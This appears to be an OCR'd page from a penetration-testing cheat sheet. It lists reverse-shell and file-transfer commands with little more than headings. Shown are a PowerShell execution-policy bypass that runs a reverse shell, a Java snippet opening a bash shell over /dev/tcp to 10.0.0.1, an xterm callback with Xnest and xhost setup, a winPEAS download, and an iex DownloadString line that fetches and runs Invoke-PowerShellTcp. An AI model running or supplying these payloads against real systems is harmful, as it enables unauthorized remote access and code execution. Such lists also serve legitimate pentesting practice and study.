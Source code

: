 ```powershell
powershell -ExecutionPolicy bypass -command "Import-Module reverse.ps1; reverse_powershell"
```

### Java Reverse Shell

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Xterm Reverse Shell

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

```bash
xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

```bash
Xnest :1

```

You’ll need to authorise the target to connect to you (command also run on your host):

```bash
xhost +targetip
```

##

## Linux

## Windows

### Transferring Files Without Metasploit

#### Powershell

Download files with powershell

```powershell
powershell -c "Invoke-WebRequest -uri 'http://Your-IP:Your-Port/winPEAS.bat' -OutFile 'C:\Windows\Temp\winPEAS.bat'"
```

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```
